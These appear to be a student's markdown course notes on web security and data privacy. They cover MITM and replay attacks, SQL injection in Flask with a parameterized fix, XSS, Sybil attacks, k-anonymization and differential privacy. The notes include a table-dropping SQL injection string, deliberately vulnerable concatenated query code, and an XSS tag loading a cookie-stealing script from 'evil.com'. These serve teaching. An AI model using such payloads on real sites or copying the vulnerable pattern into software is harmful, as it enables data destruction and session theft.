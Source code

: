 [[2023-05-11]] #Webpage #WebSecurity 

### Network Attacks
Network attacks happen as information travels between client and server. There are briefly three kinds of attacks we are going to cover.
- **Eavesdropping**
- **Man-in-the-middle** (MITM)
	- E.g. provision of fake Amazon public key
		- Solution: HTTPS with **[[5 Encryption#^e0821c|certificate authorities]]**
- **Replay**
	- Memorize a message and send it multiple times
	- E.g. memorize bill-paying message to fake the process
		- Solution: make every message **different**: (1) incrementing number, (2) random number (only once)

---

### Web Attack
While network attacks pertain to information in transit, web attacks are related to the design of our `flask` App. We will again discuss three main types of web attacks.

#### SQL Injection
The following could happen if we had backend code like this
```python
username = flask.request.form["username"]

query =  
	"SELECT hash "  
	"FROM passwords "  
	"WHERE user = '" + username + "'"
```

If a client deliberately passed in a string: `; DROP TABLE PASSWORDS --`, the SQL query will drop the entire database we have back there!

This translates to
```sql
SELECT hash 
FROM passwords 
WHERE user = ; DROP TABLE PASSWORDS --
```

which executes the `DROP` operation after inputing an empty string.

Instead, it's a good habit to **separate code from data**:
```python
db.execute( "SELECT hash " 
		   "FROM passwords " 
		   "WHERE user = ?", (username,))
```

#### Cross-Site Scripting
If you allow users to post comments or other **text**, they can slip in **HTML tags** which does unexpected things.
- `<script>` tag loads **code** that will run in other users' browsers

For instance,
```html
Nice picture! <script src="http://evil.com/steal_cookies.js" />
```

#### Sybil
One (1) real-life user pretends to be **multiple** online users.
- Get around bans
- Vote more than once
- Fake reviews

To protect against this, we could
- Require real phone numbers
- CAPTCHAS

---

### Database Anonymity
Data are sometimes a liability rather than an asset. There are three main methods to prevent data leakage.
- Store only the data you need
- K-anonymization
- Differential privacy

#### K-Anonymization
The power of “hiding in the crowd.” Specifically, a dataset is **k-anonymous** if quasi-identifiers for each person in the dataset are **identical** to at least $k – 1$ other people also in the dataset.

```ad-example
If we have a dataset of students' graduation year, major, and GPA, what we could do to make it 2-anoynomous is to change the graduation year (identifier) to a range of years so that there are always **AT LEAST two** rows that potentially match.
```

The downside of using k-anonymization are
- **Losing information** when you transform data
- **NP-hard** to find optimal k-anonymization
	- Optimal being losing the **LEAST** information
- If everyone in a group has the **same sensitive information**, k-anonymity doesn't help

#### Differential Privacy
Add **noise** to answers.
- Repeated queries still a problem – if I can ask 1000 times, I will **converge** to the mean and effectively remove the added noise.